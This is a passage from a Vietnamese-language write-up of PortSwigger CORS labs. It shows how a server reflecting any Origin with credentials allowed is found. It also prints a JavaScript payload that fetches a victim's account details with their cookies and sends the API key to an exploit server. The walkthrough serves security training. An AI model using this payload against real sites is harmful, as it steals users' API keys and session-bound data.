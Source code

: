 ![image](https://hackmd.io/_uploads/rk9ksifTT.png)

![image](https://hackmd.io/_uploads/HJj-jjMaa.png)

Kiểm tra request đến /accountDetails thì nó trả về thông tin user chứa apikey dựa theo session cookie và có header `Access-Control-Allow-Credentials: true` nên có thể suy ra nó hỗ trợ CORS.

![image](https://hackmd.io/_uploads/r1MDiof6a.png)

Nếu thêm Origin bất kì http://abc.com vào request, có thể thấy response có thêm Access-Control-Allow-Origin: http://abc.com → server trust origin từ request.

![image](https://hackmd.io/_uploads/HytsisGT6.png)

### Khai thác

mình dùng payload sau

```javascript!
<script>
    fetch('//<LAB-ID>.web-security-academy.net/accountDetails', {
        credentials:'include'
    })
    .then(r => r.json())
    .then(j => fetch('//exploit-<EXPLOIT-ID>.exploit-server.net/?apiKey=' + j.apikey))
</script>
```

khi victim truy cập vào exploit server của mình đoạn script trong đó sẽ lấy apikey từ `/accountDetails` của nạn nhân và sau đó gửi nó về exploit server của mình

![image](https://hackmd.io/_uploads/SkjjTjfaa.png)

store và delivery cho victim và mình vào xem log được apikey là **nVgP0vg2JhZlkE2LUU1EoxpHNGBnKQC6**

![image](https://hackmd.io/_uploads/r1C5asMpa.png)

đem submit và mình solve được lab này

![image](https://hackmd.io/_uploads/S1vx0sGp6.png)

## 2. Lab: CORS vulnerability with trusted null origin

link: https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack

### Đề bài

![image](https://hackmd.io/_uploads/ryQtAoMa6.png)

### Phân tích
